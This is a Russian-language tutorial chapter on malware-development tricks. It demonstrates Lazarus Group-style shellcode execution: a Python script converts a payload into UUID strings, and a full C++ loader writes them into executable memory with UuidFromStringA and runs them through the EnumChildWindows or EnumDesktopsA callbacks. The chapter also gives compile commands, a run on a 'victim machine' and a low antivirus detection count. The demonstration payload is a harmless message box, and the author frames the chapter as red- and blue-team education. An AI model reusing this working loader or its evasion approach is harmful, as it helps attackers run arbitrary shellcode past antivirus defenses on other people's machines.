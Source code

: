 \newpage
\subsection{35. Трюки разработки вредоносного ПО. Запуск шелл-кода в стиле Lazarus Group. Пример на C++.}

﷽

![injection](./images/63/2022-07-22_09-57.png){width="80%"}    

Эта статья является результатом моего собственного исследования ещё одного интересного приёма: запуск полезной нагрузки через `UuidFromStringA` и, например, `EnumChildWindows`.    

### UuidFromStringA

Эта функция преобразует строку в UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

Без использования стандартных функций, таких как `memcpy` или `WriteProcessMemory`, эту функцию можно использовать как для декодирования данных, так и для их записи в память.     

Техника выполнения шелл-кода включает следующие шаги:

- Выделение памяти с помощью `VirtualAlloc`    
- Использование `UuidFromStringA` для преобразования UUID-строк в их двоичный формат и сохранения в памяти    
- Использование `EnumChildWindows` (или `EnumDesktopsA`, либо другого подходящего метода) для выполнения ранее загруженной в память полезной нагрузки      

### Практический пример

Рассмотрим практический пример. Этот трюк довольно прост, он схож с [предыдущими](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) приёмами, но с некоторыми изменениями, характерными для Lazarus Group.     

Сначала нам нужен скрипт для преобразования полезной нагрузки в допустимые строки UUID. Например, такой (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # читаем 16 байтов из нашего входного бинарного файла
    chunk = f.read(16)
    while chunk:
        # если в блоке менее 16 байтов, дополняем разницу (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

Как обычно, я буду использовать полезную нагрузку с сообщением "meow-meow": `meow.bin`.

Запуск:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](./images/63/2022-07-22_10-46.png){width="80%"}    

Поскольку теперь у нас есть полезная нагрузка в формате UUID, мы можем создать код доказательства концепции (PoC) для тестирования следующего:

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Обратите внимание на функцию `UuidFromStringA`. Как я уже писал ранее, вызов этого API с указателем на память вместо указателя на UUID приведёт к тому, что двоичное представление заданного UUID будет сохранено в памяти.     

Связывая множество API-запросов и передавая корректно сформированные UUID, можно загрузить необходимое содержимое (полезную нагрузку) в выбранную область памяти.   

А затем, в качестве указателя на функцию обратного вызова в `EnumChildWindows`, мы указываем этот участок памяти:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

или другую функцию `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### Демо

Давайте посмотрим, как всё работает на практике. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_10-56.png){width="80%"}    

Запускаем на машине жертвы:    

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_10-58.png){width="80%"}    

Чтобы убедиться, что наша полезная нагрузка действительно запущена, можно немного изменить код:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Затем снова компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_11-07.png){width="80%"}    

и снова запускаем:   

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_11-09.png){width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем `hack.exe` на VirusTotal:    

![injection](./images/63/2022-07-22_14-59.png){width="80%"}    

**Итак, 6 из 68 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

Есть один нюанс. Lazarus Group использует функции `HeapCreate` и `HeapAlloc` вместо:

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` - это часто используемый API-вызов для выделения памяти в куче.    
Этот API позволяет выделять указанные объемы памяти в куче, в отличие от блоков памяти, полученных с помощью `VirtualAlloc`.
Однако, согласно документации, `HeapAlloc` всё же может вызывать `VirtualAlloc`, если это необходимо.    

Также у него есть преимущество: этот API не выглядит таким подозрительным.    

Кроме того, Lazarus Group использует функцию `EnumSystemLocalesA` для выполнения полезной нагрузки.    

Я надеюсь, что этот пост повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.    

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
